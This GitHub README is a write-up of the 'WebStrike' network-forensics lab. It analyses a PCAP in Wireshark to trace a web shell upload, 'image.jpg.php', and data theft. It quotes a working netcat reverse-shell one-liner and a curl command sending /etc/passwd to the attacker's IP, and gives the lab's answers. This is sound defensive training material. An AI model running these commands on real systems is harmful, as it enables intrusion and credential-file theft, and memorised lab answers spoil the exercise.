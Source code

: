 # WebStrike Lab

## Objective:

Task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.

### Skills Learned

1. Identifying the geographical origin of the attack facilitates the implementation of geo-blocking measures and the analysis of threat intelligence. From which city did the attack originate?
2. Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?
3. We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?
4. Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?
5. Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?
6. Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

### Tools Used

- Wireshark
- ipgeolocation.io

## Steps:

1. Navigate to the WebStrike.PCAP file that was captured.  *Ref 1: WebStrike.PCAP file
2. Perform an IPv4 Address Lookup of ---| 117.11.88.124 |. 
3. Identify the User-Agent ---| Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 |.
4. Create a filter for Wireshark ---| (ip.src == 117.11.88.124 and http.request.method=="POST") |.
5. Identify any successful uploads ---| "image.jpg.php" uploaded successfully |.
6. Locate the file location of the uploaded file ---| /reviews/uploads/ |.
7. Identify the targeted Port used for infiltration ---| Port 8080 |.
8. Create a filter for Wireshark ---| (tcp.port==8080) && (ip.src==24.49.63.79) |.
9. Identify the commands used for exfiltration ---| "curl" "curl -X POST -d /etc/passwd 117.11.88.124:443" |.
10. Identified the critical information containing sensitive user configuration data.

drag & drop screenshots here or use imgur and reference them using imgsrc

Every screenshot should have some text explaining what the screenshot is about.

Example below.

*Ref 1: Network Diagram*

## Notes:

- Thunar file system interaction
- https://ipgeolocation.io/   for IPv4v Address (117.11.88.124) Lookup
- WebStrike.PCAP
- uese-agent ---- | Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 |
- Filter for wire shark ---- |(ip.src == 117.11.88.124 and http.request.method=="POST") |
- "image.jpg.php" uploaded successfully
- ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f")
- Uploaded file found in /reviews/uploads/
- Port 8080 targeted
- Filter for wire shark ---- | (tcp.port==8080) && (ip.src==24.49.63.79) |
- Attacker used "curl" "curl -X POST -d /etc/passwd 117.11.88.124:443/"
- Shows exfiltration of critical information containing sensitive user configuration data.
- 
